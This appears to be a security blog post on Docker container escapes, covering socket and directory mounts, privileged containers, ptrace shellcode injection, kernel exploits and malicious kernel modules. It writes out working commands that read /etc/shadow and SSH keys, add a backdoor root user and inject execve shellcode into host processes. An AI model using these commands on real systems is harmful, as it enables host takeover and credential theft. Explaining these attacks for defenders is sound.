






Containers aren't VMs. This is the fundamental reason Docker escapes exist.

When you spin up a VM, you're getting a completely separate kernel, virtual hardware, the whole deal. The hypervisor sits between your VM and the host, and what happens inside stays inside.

Docker? It's just a fancy process. Your container shares the same kernel as your host machine. The isolation comes from Linux features like namespaces, cgroups, and seccomp - not from hardware separation. This makes containers lightweight and fast, but it also means the barrier between container and host is thinner than most people realize.

## How Docker Works Under the Hood

When you run `docker run`, here's what actually happens:

Your CLI talks to the Docker daemon through a Unix socket at `/var/run/docker.sock`. The daemon then hands things off to containerd (the high-level runtime that manages images and container lifecycle), which passes execution down to runc (the low-level runtime). Runc is where the real work happens - it talks directly to the Linux kernel to set up all the isolation.

The isolation itself comes from several mechanisms working together:

**Namespaces** give each container its own view of the system. The container thinks it has its own network stack, its own process tree starting at PID 1, its own filesystem. But it's all an illusion - the kernel is just showing it a filtered view.

**Cgroups** limit what resources a container can consume. Without these, a container could eat all your CPU or RAM and starve the host.

**Seccomp** blocks dangerous syscalls. Things like `mount`, `reboot`, or `pivot_root` could let a container mess with the host, so they're filtered by default.

**Capabilities** break root into smaller pieces. Instead of giving a process full root power, Linux defines ~40 capabilities like `CAP_NET_ADMIN` or `CAP_SYS_ADMIN`. Docker drops most of these.

**AppArmor/SELinux** provide an additional layer of mandatory access control at the kernel level.

Sounds pretty secure right? The problem is these are all software boundaries, and software boundaries can be misconfigured or bypassed.

---

## Escape Techniques

### 1. Docker Socket Mount

This is the most common escape I see in the wild, and honestly it's embarrassing how often it happens.

Some applications need to interact with Docker - CI/CD pipelines, monitoring tools, container orchestration. The "easy" solution is mounting the Docker socket into the container: `-v /var/run/docker.sock:/var/run/docker.sock`

The moment you do this, you've given that container full control over the Docker daemon. The daemon runs as root on the host. So now the container can create new containers with any configuration it wants - including one that mounts the entire host filesystem with full privileges.



```bash
# Vulnerable setup
docker run -v /var/run/docker.sock:/var/run/docker.sock -it ubuntu

# Inside container - install docker cli
apt update && apt install -y docker.io

# Spawn privileged container with host root mounted
docker run -it -v /:/host --privileged ubuntu chroot /host
```

Game over. You're now root on the host.

#### CVE-2025-9074: Docker Desktop API Exposure

This vulnerability made the socket mount issue even worse on Docker Desktop. The Docker Engine API was accessible **without authentication** via an internal TCP socket (typically `192.168.65.7:2375`) from inside any container - even without explicitly mounting the socket.

This meant any container running on Docker Desktop could connect to `http://192.168.65.7:2375` and have full control over the Docker daemon. No socket mount required. The fix involved properly restricting access to this internal API endpoint, but if you're running an unpatched version of Docker Desktop, every container you run has implicit access to the daemon.

### 2. Sensitive Directory Mounts

Similar problem, different flavor. Sometimes people mount host directories into containers for convenience - config files, home directories, whatever.

Mounting `/etc` means the container can read `/etc/shadow` (password hashes) or add entries to `/etc/passwd`. Mounting `/root` gives access to SSH keys. Even mounting something seemingly innocent like `/var/log` can leak sensitive information.



```bash
# Vulnerable container with /etc mounted
docker run -v /etc:/host_etc -it ubuntu

# Read password hashes
cat /host_etc/shadow

# Add backdoor user (if read-write)
echo 'backdoor:x:0:0::/root:/bin/bash' >> /host_etc/passwd

# Or steal SSH keys if /root is mounted
docker run -v /root:/host_root -it ubuntu
cat /host_root/.ssh/id_rsa
```

If the mount is read-write, the attacker can also modify these files. Adding a backdoor user to passwd or dropping an SSH key into authorized_keys gives persistent access.

### 3. The uevent_helper Attack

This one's interesting because it abuses a legitimate kernel feature.

Linux has a mechanism called `uevent_helper` at `/sys/kernel/uevent_helper`. Whenever a device event happens in the kernel - USB plugged in, network interface changes state, any hardware event - the kernel can execute a userspace helper program specified in this file.

Here's the catch: the kernel doesn't know about container namespaces when it executes this helper. It runs in the kernel's context, which means the host's context.



So if an attacker can write to `/sys/kernel/uevent_helper`, they write a path to their malicious script, then trigger any device event (writing to `/sys/class/mem/null/uevent` works). The kernel executes their script as root on the host, completely bypassing container isolation.

The good news is this requires `/sys` to be mounted read-write, which it shouldn't be. Modern container runtimes mount it read-only by default. But if someone's running an older setup or explicitly mounted it writable, this attack path exists.

### 4. Privileged Containers

Running a container with `--privileged` basically turns off all the security features I mentioned earlier. Full access to host devices, all capabilities enabled (including `CAP_SYS_ADMIN` which allows mounting filesystems), no seccomp filtering.

At that point the container is essentially root on the host with a slightly different filesystem view. Mounting the host disk, accessing `/dev/mem`, manipulating cgroups - all fair game.



```bash
# Run privileged container
docker run --privileged -it ubuntu

# Mount host filesystem directly
mkdir /mnt/host
mount /dev/sda1 /mnt/host
cat /mnt/host/etc/shadow
```

### 5. Process Injection with SYS_PTRACE

If a container has the `CAP_SYS_PTRACE` capability and shares the host's PID namespace (`--pid=host`), it can use ptrace to attach to host processes.

Ptrace is the debugging interface - it's how gdb works. With it, you can read and write process memory, modify registers, inject code.



```bash
# Vulnerable container setup
docker run --cap-add=SYS_PTRACE --pid=host -it ubuntu

# Check you have ptrace capability
capsh --print | grep ptrace
# Output: Current: cap_sys_ptrace+ep

# Find a host process - you'll see ALL host processes
ps aux | grep root
# Output:
# root         1  0.0  0.1 169836 13400 ?  Ss   09:15   0:02 /sbin/init
# root       412  0.0  0.2  48564 18232 ?  Ss   09:15   0:00 /lib/systemd/systemd-journald
# root       451  0.0  0.1  25532  9128 ?  Ss   09:15   0:00 /lib/systemd/systemd-udevd
# root       892  0.0  0.1  15420  9396 ?  Ss   09:15   0:00 sshd: /usr/sbin/sshd -D
```

The shellcode we inject is a simple `execve("/bin/sh")` - here's the assembly:

```asm
; https://github.com/MindPatch/zeronleft_labs/blob/master/shell_code.asm
section .text
    global _start

_start:
    xor rax,rax
    mov rdx,rax         ; No Env
    mov rsi,rax         ; No argv
    lea rdi, [rel msg]
    add al, 0x3b        ; syscall number for execve
    syscall

    msg db '/bin/sh',0
```

This compiles down to the shellcode bytes we inject. The full memory injection code is available at [mem_inj.c](https://github.com/MindPatch/zeronleft_labs/blob/master/mem_inj.c).

Compile and run against a host process:

```bash
# Terminal 1 (tmux session) - run a simple process as root
root@host:~$ sleep 99999
```

```bash
# Terminal 2 - find the sleep process and inject
root@container:~$ ps aux | grep sleep
root      5322  0.0  0.0   8400   532 pts/1    S+   14:32   0:00 sleep 99999

root@container:~$ gcc -o inject mem_inj.c
root@container:~$ ./inject 5322
+ Tracing process 5322
+ Waiting for process...
+ Getting Registers
+ Injecting shellcode at 0x7f4a2c3b1000
+ Setting instruction pointer to 0x7f4a2c3b1002
+ Run it!
```

```bash
# Terminal 1 - sleep gets replaced with a shell!
root@host:~$ sleep 99999
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

The shell spawns in Terminal 1 where sleep was running - the process memory got overwritten with our shellcode, and now we have code execution in the host context.

### 6. Kernel Exploits

Since containers share the kernel with the host, any kernel vulnerability is exploitable from inside a container. DirtyCow, DirtyPipe, whatever the next big kernel bug is - if it gives you privilege escalation, it works from containers too.


```bash
# Check kernel version
uname -r

# Example: DirtyPipe (CVE-2022-0847) affects Linux 5.8+
# Download and compile exploit
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
cd CVE-2022-0847-DirtyPipe-Exploits
gcc exploit-1.c -o exploit

# Run it - overwrites /etc/passwd to add root user
./exploit
```

This is fundamentally different from VMs where a kernel exploit only gives you the VM's kernel, not the host's. With containers, kernel security is container security.

#### Loading Malicious Kernel Modules

If a container has `CAP_SYS_MODULE` capability (or runs privileged), it can load arbitrary kernel modules into the host kernel. This is basically game over - a kernel module runs with full kernel privileges, completely outside any container isolation.



```bash
# Check if you have CAP_SYS_MODULE
capsh --print | grep sys_module

# Compile a malicious kernel module (on attacker machine)
# This example module spawns a reverse shell
make -C /lib/modules/$(uname -r)/build M=$(pwd) modules

# Inside container with CAP_SYS_MODULE
insmod /path/to/evil.ko
```

The module executes in kernel space on the host. From there you can disable security features, hide processes, intercept syscalls - anything the kernel can do.

---

## References

- [Docker Security Best Practices](https://docs.docker.com/engine/security/)
- [Understanding Docker Container Escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)
- [Linux Capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html)
- [CGroups Escape Techniques](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
- [CVE-2025-9074 - Docker Desktop API Exposure](https://www.docker.com/blog/docker-security-advisory-docker-engine-authz-plugin/)
- [Memory Injection Code](https://github.com/MindPatch/zeronleft_labs/blob/master/mem_inj.c)
- [Shellcode Assembly](https://github.com/MindPatch/zeronleft_labs/blob/master/shell_code.asm)
